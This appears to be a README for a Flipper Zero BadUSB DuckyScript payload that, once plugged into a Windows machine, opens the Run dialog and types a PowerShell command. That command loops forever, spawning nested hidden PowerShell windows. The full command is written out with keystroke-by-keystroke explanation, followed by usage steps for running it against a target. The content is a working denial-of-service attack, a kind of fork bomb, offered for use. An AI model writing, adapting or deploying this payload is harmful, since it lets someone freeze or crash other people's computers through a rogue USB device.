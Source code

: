 # SpamTerminalsWin-FlipZero by bst04

## Description

This script, created by bst04, is designed to work on Windows devices. It opens an infinite number of hidden PowerShell terminals, effectively spamming the system with terminal instances.

---

## Technical Explanation

1. **Initialization**:
    - `GUI r`: Simulates pressing "Windows" + "R" to open the Run dialog.
    - `DELAY 250`: Waits for 0.25 seconds to ensure the Run dialog is open.

2. **Execute PowerShell Command**:
    - `STRING powershell -WindowStyle Hidden -Command "while ($true) { Start-Process powershell -ArgumentList '-NoExit', '-Command', 'Start-Process powershell -WindowStyle Hidden -ArgumentList \"-NoExit\", \"-Command\", \"Start-Process powershell -WindowStyle Hidden\"' }"`: Types a PowerShell command that runs an infinite loop, continuously opening hidden PowerShell windows.
    - `DELAY 1000`: Waits for 1 second to ensure the command is fully typed.

3. **Start the Command**:
    - `ENTER`: Executes the PowerShell command.

---

## Usage

1. Copy the payload script to your DuckyScript-enabled device.
2. Ensure the device is connected to a Windows system.
3. Execute the payload to open an infinite number of hidden PowerShell terminals.

---
